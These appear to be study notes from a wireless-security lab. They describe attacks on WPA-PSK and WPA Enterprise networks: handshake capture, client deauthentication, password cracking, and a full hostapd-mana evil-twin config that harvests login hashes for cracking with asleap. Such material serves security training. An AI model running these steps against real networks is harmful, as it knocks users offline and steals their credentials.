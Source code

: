 MGT on the `airodump-ng` output.
Enables user authentication against a central database.

EAP - Extensible Authentication Protocol: framework that allows a number of different authentication schemes or methods (common use: username and password authentication).
Authentication is done using a Remote Authentication Dial-In User Service (or <font style="color:#981f3a">RADIUS server</font>). Instead of the PSK, if the authentication is successful, the result is then used as Pairwise Master Key for the 4 way handshake.

EAP-TLS is the most secure way of authentication: credentials + TLS certificates.

EAP-Tunneled-Transport-Layer-Security creates a tunnel between client and server and exchanges the credentials using one of the few possible different inner methods (also called phase 2) such as:
- Challenge-Handshake Authentication Protocol (CHAP)
- Authentication Protocol (PAP)
- Microsoft CHAP (MS-CHAP)
- Microsoft CHAP v2 (MS-CHAPv2)
- Protected Extensible Authentication Protocol (PEAP)

---

 <font style="color:#981f3a">First part: Initial Attack to get handshake</font>
1) Capture handshake.
	`# airodump-ng wlan0mon`
	Start dumping data on wpa file
	`# airodump-ng -c <channel> -w wpa --essid <essid> --bssid <bssid> wlan0mon`
	Deauthenticate a client to get the handshake
	`# aireplay-ng -0 1 -a <AP_bssid> -c <client_bssid> wlan0mon` (-0 1 to deauth only once, -a to target our bssid, -c to target the client)

OPTIONAL:
If you're cracking a WPA-PSK, you can find the password using:
`# aircrack-ng -w /usr/share/john/password.lst -e <AP_essid> -b <AP_bssid> wpa-01.cap`
To confirm the password is correct, you can run:
`# airdecap-ng -b <bssid> -e <essid> -p <password> wpa-01.cap`

------

 <font style="color:#981f3a">Second part: Attack against WPA Enterprise</font>
 
 After disabling moniotor mode with `# sudo airmon-ng stop wlan0mon`
 
2) Use Wireshark to get the certificate:
	`# wlan.bssid==<bssid> && eap && tls.handshake.certificate` <-- on the filters
	Extensible Authentication Protocol > Transport Layer Security > TLSv1.2 Record Layer: Handshake Protocol: Certificate (or something similar) > Handshake Protocol Certificate > Certificates
	There are one or more "Certificate" --> right click, export packet bytes (export as .der)
	![[Pasted image 20230202112655.png | 750]]
	`# openssl x509 -inform der -in cert.der -text` to see the certificate details
	`# openssl x509 -inform der -in cert.der -outform pem -out output.crt` to convert in pem certificate (.crt)
3) install freeradius and configure it:

change the settings of /etc/freeradius/3.0/certs/ca.cnf
```
...
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
...
```

then, change the settings of /etc/freeradius/3.0/certs/server.cnf
```
...
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
...
```

4) Rigenerate the Diffie-Hellman parameters:
	`# rm /etc/freeradius/3.0/certs/dh`
	`# cd /etc/freeradius/3.0/certs/ && make` (it can finish with an error, but we don't care)
If we run make but the certificates already exists, run  `make destroycerts` first

5) Create hostapd-mana config file with the same ssid and certificates edited:
```
# SSID of the AP
ssid=Playtronics

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```

Create /etc/hostapd-mana/mana.eap_user (user file)
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```

6) Start the AP
	`# sudo hostapd-mana /etc/hostapd-mana/mana.conf` (Use `-B` to run it in background)
When someone tries to connect to our AP, the login attempt is captured (username and hash).
There is a line on the standard output of the command that you can copy to crack the password like explained below.

7) Crack the password using `asleap` (copy it from the output of the command above):
	`# asleap -C <bssid> -R <bssid> -W wordlist`
	you can also use `crackapd` that automatically crack the intercepted hash.